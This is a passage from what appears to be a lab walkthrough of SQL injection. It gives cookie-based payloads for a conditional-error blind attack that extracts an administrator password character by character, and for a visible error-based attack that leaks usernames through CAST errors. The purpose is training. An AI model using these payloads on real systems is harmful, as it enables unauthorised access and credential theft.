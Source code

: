 Using a Sniper Payload for efficiency&speed (found that password length = 20)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN (password)>§1§ THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--
```

If SUBSTR(password,1,1) = 'a' --> error which means that we are on the track
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN SUBSTR(password,1,1) = 'a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'-- 
```

Using Cluster Bomb payload for efficiency&speed for all the positions (1-20)(a-z)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN SUBSTR(password,§1§,1) = '§a§' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a'-- 
```


## **12.  Visible error-based SQL injection**
```
TrackingId=ogAZZfxtOKUELbuJ'
```
In the response, we notice a verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. We also observe that our injection appears inside a single-quoted string.

We add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error.
```
TrackingId=ogAZZfxtOKUELbuJ'--
```
We longer receive an error (this suggests that the query is now syntactically valid).

We will adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type.
```
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```
Now we get a different error saying that an `AND` condition must be a boolean expression.

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```
We send the request and confirm that we no longer receive an error. This suggests that this is a valid query again.

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```
We receive the initial error message again. The query now appears to be truncated due to a character limit. As a result, the comment characters we added to fix up the query aren't included.

Deleting the original value of the `TrackingId` cookie to free up some additional characters. 
```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
```
